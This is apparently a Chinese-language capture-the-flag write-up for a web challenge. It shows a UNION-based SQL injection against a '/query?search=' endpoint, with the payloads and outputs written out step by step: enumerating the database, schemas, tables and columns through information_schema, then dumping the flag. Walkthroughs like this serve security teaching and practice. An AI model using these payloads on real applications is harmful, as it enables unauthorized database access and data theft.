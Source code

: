 ![](<./img/Pasted image 20230212085901.png>)

```
/
```

![](<./img/Pasted image 20230212085944.png>)

点击左侧条目会发出请求

![](<./img/Pasted image 20230212090816.png>)

```
/query?search=<name>
```

通过访问`/query`路由能够获取到包含对应地区生物信息的`json`

尝试对`search`进行SQL注入

```
/query?search=amazonis_planitia union select 1, 2
```

![](<./img/Pasted image 20230212092806.png>)

```
/query?search=amazonis_planitia union select 1, database()
```

```
aliens
```

```
/query?search=amazonis_planitia union select 1, group_concat(schema_name) from information_schema.schemata
```

```
information_schema,alien_code,aliens
```

```
/query?search=amazonis_planitia union select 1, group_concat(table_name) from information_schema.tables where table_schema = 'alien_code'
```

```
code
```

```
/query?search=amazonis_planitia union select 1, group_concat(column_name) from information_schema.columns where table_name = 'code'
```

```
id,code
```

```
/query?search=amazonis_planitia union select 1, group_concat(id) from alien_code.code
```

```
0
```

```
/query?search=amazonis_planitia union select 1, group_concat(code) from alien_code.code
```

```
flag{481d123d-ab78-45f1-a82d-506efe39483a}
```

#Web #SQL注入 #联合注入 